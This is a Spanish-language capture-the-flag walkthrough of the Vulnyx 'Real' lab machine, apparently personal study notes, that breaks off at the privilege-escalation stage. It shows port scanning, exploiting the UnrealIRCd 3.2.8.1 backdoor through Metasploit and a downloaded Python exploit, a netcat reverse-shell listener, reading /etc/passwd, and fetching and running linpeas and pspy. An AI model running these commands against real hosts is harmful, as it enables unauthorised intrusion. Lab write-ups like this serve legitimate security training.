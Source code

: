 #Reconocimiento
#Puerto80
#puerto6667
#reverseshell
#reverseshellpython
#escaladaPrivilegios

Mirror donwload: [Download - MEGA](https://mega.nz/file/FOZxHbKB#LLYTQBQLGLYTVdlMMJ27mLc23pGN0XjFlg4vgHvh5Qw)

![[Vulnyx - Real - Machine.png]]
## Reconocimiento en la red

![[Vulnyx - Real - Reconocimiento.png]]

IP Máquina  target: 192.168.1.140
## NMAP

![[Vulnyx - Real - Nmap discover.png]]
Obtenemos que el epuerto 80 y puerto 22 esán abiertos
Puerto 80 es el puerto para servicio web
Puerto 22 es el puerto de SSH
Puerto 6667  --irc
Puerto 6697  --irc-u
Puerto 8067  --infi-async

Vemos la web que encontramos:

## revision puerto 80


![[Vulnyx - Real - Apache 2 Debian default website.png]]
Web es la web de apache 2 por defecto
Hacemos Gobuster para intentar encontrar  diferentes rutas de la web (por si existe algo fuera del index)


![[Vulnyx - Real - Goobuster.png]]
Pero no encontramos nada
podemos seguir intentando fuzz y gobuster subdomains

De la web no sacamos nada
Pasamos al siguiente puerto 6667

 instantamos explotarlo con metaexploit:
 comandos 
 msfconsole
![[Vulnyx - Real - Msfconsole.png]]

y buscando un poco por internet vemos que es vulnerable con metaexploit: 
https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide/
vamos a intentar explotarlo segun lo encontrado

![[Vulnyx - Real - Search Unreal.png]]


Use 2
![[Vulnyx - Real - Use2 msfconsole.png]]

Options
![[Vulnyx - Real - Options.png]]

set rhost = IP:
![[Vulnyx - Real - Set rhost.png]]

set rport  6667

![[Vulnyx - Real - Set report 6667.png]]

use exploit/unix/irc/unreal_ircd_3281_backdoor
![[Vulnyx - Real - Use exploit irc unreal.png]]

show payloads:
![[Vulnyx - Real - show payloads.png]]

set payload reverse:
![[Vulnyx - Real - Set pauload reverse.png]]

set lhosts = local IP:
![[Vulnyx - Real - Set lhost.png]]


exploit
![[Vulnyx - Real - Exploit.png]]
but No sessions was created.

Buscando un poco por internet encontramos el repo de github

https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor

descargamos el exploit .py
wget https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor/blob/master/exploit.py

![[Vulnyx - Real - Descargar exploit del repo de github.png]]

Editamos el script en python para poner nuestra IP y el puerto con el que vamos a hacer el reverse proxy:
![[Vulnyx - Real - Script original.png]]


modificamos segun nuestras preferencias:
![[Vulnyx - Real - Config parameter.png]]

en este caso nuestra IP local y el puerto por el cual nos vamos a poner a la escucha que va a ser el 6666

ahora nos ponemos a la escucha en la terminal con  el comando:
nc -lvp 6666

![[Vulnyx - Real - Reverse shell en escucha.png]]

y una vez estamos escuchando por el puerto correcto lo que hacemos es ejecutar el scrip de python para conectar por el puerto 6667 y lanzar una reverse shell sobre nuestra IP por el puerto 6666
python3 exploit.py 192.168.1.140 6667 -payload netcat

![[Vulnyx - Real - Send exploit.png]]

y en la terminal que estamos a la escucha por el puerto 6666 recibimos la conexión:

![[Vulnyx - Real - Connection reverse proxy.png]]

Entramos con el usuario serve
![[Vulnyx - Real - Acceso con user serve vulnix real.png]]


intentamos movernos hasta home/serve  para ver si está la flag del usuario
y conseguimos la primera flag del usuario:
![[Vulnyx - Real - User server flag.png]]
user server flag: 3b7fb7c1c8737a5c67dc513657e3efb3


Comando id
![[Vulnyx - Real - Comando id para ver el usuario.png]]
Con el comando id vemos que el usuario es server 

vemos el passwd en /etc/passwd:
![[Vulnyx - Real - Passwd.png]]

server:x:1000:1000:server,,,:/home/server:/bin/bash
aquí vemos que el id de usuario es 1000 e identificador de grupo es 1000 --> Todos los que comienzan con 1000 en LINUX son usuarios

ahora vamos a hacer tratamiento de la TTI:


Tratamiento de la TTI
script /dev/null -c bash
CTRL + Z
stti raw -echo ; fg
reset
xterm
export TERM = xterm-256color
export SHELL = bash
stty -a

Descargamos linpeas:

https://github.com/carlospolop/PEASS-ng/blob/master/linPEAS/README.md
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh

le damos permisos de ejecucion al fichero .sh
chmod +x linpeas.sh
ejecutamos linpeas
./linpeas.sh

![[Vulnyx - Real - Linpeas.png]]

Pero no encontramos nada interesante

Usamos la herramient pspy:
https://github.com/DominicBreuker/pspy
url de descarga:
https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64

le damos permisos de ejecucion
chmod +x pspy64

lo ejecutamos
./pspy64
![[Vulnyx - Real - Pspy64.png]]

nos encontramos un fichero que se ejecuta como admisnitrador en /opt/Task
vemos ese fichero:
cat /opt/Task

